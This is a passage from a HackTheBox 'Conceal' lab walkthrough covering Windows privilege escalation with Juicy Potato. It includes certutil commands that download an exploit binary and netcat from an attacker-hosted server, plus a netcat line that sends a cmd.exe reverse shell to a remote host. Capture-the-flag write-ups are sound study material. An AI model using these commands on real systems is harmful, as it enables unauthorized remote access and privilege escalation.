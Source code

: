 ![](/images/hackthebox/conceal/22.png)
#### It's `Microsoft Windows 10 Enterprise`. I got the `clsid` of  `wuauserv` from [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise) which is : `{e60687f7-01a1-40aa-86ac-db1cbf673334}`
#### I got a compiled binary of `Juicy Potato` from the github repository. I hosted it on a python simple http server then I downloaded it on the machine with `certutil` :
`certutil -urlcache -split -f http://10.10.xx.xx/juicypotato.exe juicypotato.exe`
![](/images/hackthebox/conceal/23.png)
#### However I had some problems with my powershell reverse shell and it couldn't run `juicypotato.exe` properly so I got another `cmd` shell with `nc` :
`certutil -urlcache -split -f http://10.10.xx.xx/nc.exe nc.exe`
<br>
<br>
`nc.exe -e cmd.exe 10.10.xx.xx 1339`
![](/images/hackthebox/conceal/24.png)
<br>
<br>